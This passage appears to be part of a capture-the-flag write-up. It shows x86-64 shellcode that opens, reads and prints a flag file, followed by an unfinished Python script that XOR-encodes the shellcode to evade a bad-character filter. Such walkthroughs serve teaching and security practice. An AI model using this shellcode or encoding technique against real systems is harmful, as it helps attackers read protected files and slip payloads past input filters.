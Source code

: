 ```
xchg rsi, rdi       ; rsi is now zero (O_RDONLY) and rdi points to the filename on the stack
syscall             ; open the file

xchg rax, rdi       ; after this, rax = pointer to the stack, rdi = filehandle
xchg rax, rsi       ; after this, rax = 0, rsi = pointer to the stack
syscall             ; read

mov al, 1           ; again, less than 128 bytes will be read
push rax
pop rdi             ; fd = stdout
                    ; rsi = still pointer to buffer
                    ; rdx = still 0x7f
syscall             ; write out contents of flag to stdout!
```

Next, I needed to carve out this shellcode using `xor` instructions. These instructions must not contain bad chars. Luckily, `xor dword ptr [rax+offset]` itself does not contain bad chars, or they can be avoided.

```python
import struct

''' this function will try to locate a combination of two bytes that, when
    xor'ed, yield the required byte.
'''
def find_xor_bytes(b):
    for i in range(256):
        if i not in badchars:
            if ord(b) ^ i not in badchars:
                # return the two bytes that encode the required byte
                return chr(i), chr(ord(b) ^ i)
    print "cannot find proper byte for {}".format(b)
    exit(-1)
    
# build the bad char lookup array.
badchars = [0x0, 0xa, 0xd, 0x2f, 0xff, 0xf, 0x5, 0x68]
for i in range(0x40, 0x65):
    badchars.append(i)
# I got a bit paranoid and decided that these bytes were badchars too
for i in range(0x1, 0xf):
    badchars.append(i)
    
# read in the shellcode that we need to encode.
with open('modified-shellcode3') as sc:
    data = sc.read()
    sc.close()

# pad out the shellcode to a multiple of four
while len(data) % 4:
    data += "\xc3"

# ill-named variables to hold the encrypted bytes
storage = ''
encoded_bytes = ''
commands = ''
defines = ''
num_commands = 0

# iterate over each byte in the shellcode
for b in data:
    # try to find two bytes that are not badchars themselves
    (b1, b2) = find_xor_bytes(b)
    # store those bytes
    storage += b1
```